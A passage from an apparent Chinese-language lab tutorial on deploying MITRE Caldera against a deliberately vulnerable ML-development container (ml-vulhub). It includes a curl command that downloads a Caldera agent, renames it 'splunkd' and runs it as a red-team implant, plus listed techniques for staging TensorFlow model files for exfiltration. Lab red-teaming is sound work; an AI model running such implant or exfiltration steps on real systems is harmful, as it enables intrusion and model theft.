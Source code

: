 這樣就建完了可以連上https://localhost:8888/
    帳號密碼admin/admin
![](https://hackmd.io/_uploads/HyU5gJ_xa.png)

點選左邊的Agent開始部屬靶機
![](https://hackmd.io/_uploads/Bkf1o1OlT.png)
```bash=
$cd ml-vulhub/envs/example-00-ml-dev

# perform build and initialization steps
$sudo docker-compose build
$sudo ./init.sh

$sudo docker-compose up -d
$sudo docker-compose exec mldev bash -c 'server=http://host.docker.internal:8888; curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download -o splunkd; chmod u+x splunkd; ./splunkd -server $server -group red -v'
```
部屬完就可以上面就會顯示Alive
![](https://hackmd.io/_uploads/S1XW3kOgT.png)
選擇左邊的adversaries可以配置一些手法，如圖中我選Discovery
![](https://hackmd.io/_uploads/HJ2zC1dlp.png)
選擇左邊的operations可以倚靠自己新增的手法，去攻擊測試
![](https://hackmd.io/_uploads/HkKkVlugp.png)
也可以選擇左邊的插件arsenal中的攻擊手法
![](https://hackmd.io/_uploads/HJZ58e_lp.png)

Arsenal 裡面的TTPs
1. Create a staging directory for exfiltration.
   - 為外洩創建一個暫存目錄。

2. Discover GPUs present
   - 檢測當前存在的GPU。

3. Find Tensorflow model checkpoint files with the extension: .ckpt
   - 查找擁有副檔名為 .ckpt 的Tensorflow模型檔案。

4. Search and Stage Tensorflow model files
   - 搜尋並準備Tensorflow模型檔案以進行外洩。

5. Install Python
   - 安裝Python。

6. Download and install Python and it’s dependencies () where the agent is deployed.Python 3.7+
   - 下載並安裝Python及其相關依賴項（）到代理程式所部署的位置。Python版本需為3.7+。

7. Determine Python3 version
   - 確認Python3的版本。

8. Determine Python3 is installed and version () where the agent is deployed.Python 3.7+
   - 確認Python3是否已安裝，並顯示版本（）到代理程式所部署的位置。Python版本需為3.7+。
